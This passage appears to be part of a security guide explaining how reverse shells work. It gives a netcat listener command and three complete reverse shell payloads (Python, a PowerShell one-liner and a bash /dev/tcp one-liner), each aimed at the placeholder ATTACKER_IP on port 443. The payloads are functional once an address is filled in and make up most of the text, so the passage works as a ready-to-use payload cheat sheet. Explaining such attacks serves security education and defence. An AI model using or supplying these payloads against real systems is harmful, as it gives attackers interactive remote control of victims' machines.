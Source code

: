 #### How They Work

1.  **Attacker Sets Up a Listener**: The attacker uses a tool like `netcat` on their server to listen for incoming connections on a specific port.
    `nc -lvnp 443`  *(Listens for a connection on port 443)*
2.  **Payload Execution on Victim**: The attacker (often via a web shell) executes a reverse shell payload on the victim server.
3.  **Reverse Connection Established**: The payload makes an outbound connection to the attacker's IP address and port (e.g., 443).
4.  **Shell Acquisition**: Once the connection is established, the victim server's standard input, output, and error streams (stdin, stdout, stderr) are redirected to this network connection. The result is a fully interactive command shell for the attacker, controlled from their own terminal.

#### Reverse Shell Code Examples

Reverse shells can be implemented in many languages and are often achievable with a single line of code.

  * **Python Example**
    ```python
    import socket, subprocess, os

    # Attacker's IP and Port
    RHOST = "ATTACKER_IP"
    RPORT = 443

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST, RPORT))

    # Duplicate standard input, output, and error to the socket
    os.dup2(s.fileno(), 0) # stdin
    os.dup2(s.fileno(), 1) # stdout
    os.dup2(s.fileno(), 2) # stderr

    # Execute /bin/sh to provide a shell
    p = subprocess.call(["/bin/sh", "-i"])
    ```
  * **PowerShell (Windows) One-Liner Example**
    ```powershell
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
  * **Bash (Linux) One-Liner Example**
    ```bash
    bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
    ```
